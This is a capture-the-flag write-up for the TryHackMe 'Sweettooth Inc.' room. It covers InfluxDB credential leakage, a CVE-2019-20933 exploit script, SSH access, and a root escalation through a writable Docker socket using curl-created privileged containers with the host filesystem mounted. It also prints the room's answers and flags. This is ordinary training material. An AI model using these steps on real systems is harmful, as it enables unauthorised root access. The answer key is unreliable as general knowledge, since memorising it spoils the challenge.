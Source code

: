 ```yaml
---
title: Sweettooth Inc.
layout: post
author: Bit Criminals Team
date: 2021-07-25 20:00:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/sweettoothinc
---
```



On enumerating we get the following three open ports.

![](/images/leo/nmap.png)  
 
```
Do a TCP portscan. What is the name of the database software running on one of these ports?
influxdb
```

On looking for influxdb vulnerbilities I found this resource <https://github.com/c-sh0/security/blob/master/influxdb.txt>

Using the url <10.10.127.163:8086/debug/requests>

![](/images/leo/user1.png)

```
What is the database user you find?
o5yY6yya
```

We can get access to the database following the above resource but I found this script 
<https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933>

Running the script 

![](/images/leo/script.png)

Also found this very helpful cheatsheet for influxdb <https://gist.github.com/tomazursic/6cc217e2644c619ceceefb8ce824925b>

Filling in the database as ``` tanks ```

Using the query as ``` SHOW MEASUREMENTS ```

![](/images/leo/tanks.png)

Then using the query ``` SELECT * FROM water_tank ```
Gives us the temperatures of water tank at diffrent time

Using <https://www.epochconverter.com/> to convert the timestamp to human readable date time format 

![](/images/leo/epoch.png)

```
What was the temperature of the water tank at 1621346400 (UTC Unix Timestamp)?
22.5
```
Now we use exit to change our database and fill in ``` mixer ```

Using the query ``` SHOW MEASUREMENTS ```

![](/images/leo/mixer.png)

Then using the query as ``` SELECT * FROM mixer_stats ```
Gives us the motor rpm at different time 
Looking through them we find the highest rpm 

```
What is the highest rpm the motor of the mixer reached?
4875
```

Again we change the database to ``` creds ```
Using the query ``` SHOW MEASUREMENTS ``` 

![](/images/leo/creds.png)

Then using the query as ``` SELECT * FROM ssh ```

![](/images/leo/ssh.png)

```
What username do you find in one of the databases?
uzJk6Ry98d8C
```

Now that we have the username and password we can ssh into the machine

```
ssh -L 2376:127.0.0.1:8080 uzJk6Ry98d8C@10.10.72.25 -p 2222
```

Now we can read the user.txt

```
user.txt
THM{V4w4FhBmtp4RFDti}
```

Running linpeas tells us that we ```write permission over docker socket /run/docker.sock```
But we cannot use the docker command 

We find this resource <https://securityboulevard.com/2019/02/abusing-docker-api-socket/>

Basically we are going to create a container on the Nginx and then gain root access through it.

Using the command 
``` 
curl –insecure -X POST -H "Content-Type: application/json" http://127.0.0.1:2376/containers/create?name=test -d '{"Image":"sweettoothinc", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt" ], "Privileged": true}'
```

Returns the id of our container
```
"Id":"39d4cf768ec3fae31a9af685cefcba1244a351acb88841a5c822e7bceb4009d3","Warnings":null
```

Now we start the container using the command
```
curl –insecure -X POST -H "Content-Type: application/json" http://127.0.0.1:2376/containers/39d4cf768ec3fae31a9af685cefcba1244a351acb88841a5c822e7bceb4009d3/start?name=test
```

We gain root shell using the command
```
docker -H 127.0.0.1:2376 exec -it 39d4cf768ec3 /bin/bash
```

And voila we are root now

```
root@39d4cf768ec3:/# whoami
root
root@39d4cf768ec3:/# cd /root
root@39d4cf768ec3:/root# ls
root.txt
root@39d4cf768ec3:/root# cat root.txt
```
```
/root/root.txt
THM{5qsDivHdCi2oabwp}
```

Looking into the /mnt directory we find another root directory

```
root@39d4cf768ec3:/mnt/var/lib/docker# cd /mnt
root@39d4cf768ec3:/mnt# ls
bin   etc         initrd.img.old  lost+found  opt   run   sys  var
boot  home        lib             media       proc  sbin  tmp  vmlinuz
dev   initrd.img  lib64           mnt         root  srv   usr  vmlinuz.old
root@39d4cf768ec3:/mnt# cd root
root@39d4cf768ec3:/mnt/root# ls
root.txt
root@39d4cf768ec3:/mnt/root# cat root.txt
```

```
The second /root/root.txt
THM{nY2ZahyFABAmjrnx}
```



